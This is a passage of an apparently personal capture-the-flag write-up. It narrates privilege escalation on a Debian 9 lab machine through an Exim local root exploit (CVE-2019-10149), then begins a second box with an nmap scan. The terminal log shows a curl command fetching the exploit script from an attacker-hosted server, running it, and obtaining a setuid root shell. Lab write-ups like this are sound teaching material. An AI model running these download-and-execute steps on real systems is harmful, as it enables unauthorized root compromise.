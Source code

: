 Obviously we're out for blood though, and we gotta get root. I loaded linuxprivesc check onto the machine and ran it, but didn't find anything that would immediately launch me to root. I looked at running processes, services, all the normal enumeration one does. The only odd thing I noticed was the machine was running exim and pop. I remember thinking that was odd for a CTF, and must mean something, but it wasn't for another hour or so when I googled debian 9 exploit where I found a local priv esc for exim4, from 2019 (https://techblog.mediaservice.net/2019/06/cve-2019-10149-exploit-local-privilege-escalation-on-debian-gnu-linux-via-exim/). I figured this must be it, ran it, and dropped to a shell.
```
distccd@debian-9:/tmp$ curl -o exim4_raptor.sh http://192.168.56.103:8081/exim4_raptor.sh
<aptor.sh http://192.168.56.103:8081/exim4_raptor.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3557  100  3557    0     0   745k      0 --:--:-- --:--:-- --:--:--  868k
distccd@debian-9:/tmp$ chmod +x exim4_raptor.sh
chmod +x exim4_raptor.sh
distccd@debian-9:/tmp$ ./exim4_raptor.sh
./exim4_raptor.sh

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Preparing setuid shell helper...

Delivering setuid payload...
220 debian-9.0.0-amd64 ESMTP Exim 4.89 Wed, 29 Apr 2020 00:10:20 +0000
250 debian-9.0.0-amd64 Hello localhost [::1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1jTaIu-0000cq-3Q
221 debian-9.0.0-amd64 closing connection

Waiting 5 seconds...
-rwsr-xr-x 1 root nogroup 8744 Apr 29 00:10 /tmp/pwned
# id
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

## Decoder

So the first thing to do is a quick nmap:
```
┌[~]
└⇾ root $ nmap -T5 192.168.138.128/25
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-22 17:20 EDT
Nmap scan report for 192.168.138.135
Host is up (0.000092s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
MAC Address: 00:0C:29:1C:F6:83 (VMware)

Nmap scan report for 192.168.138.254
Host is up (0.00044s latency).
All 1000 scanned ports on 192.168.138.254 are filtered
MAC Address: 00:50:56:FA:B8:27 (VMware)
```
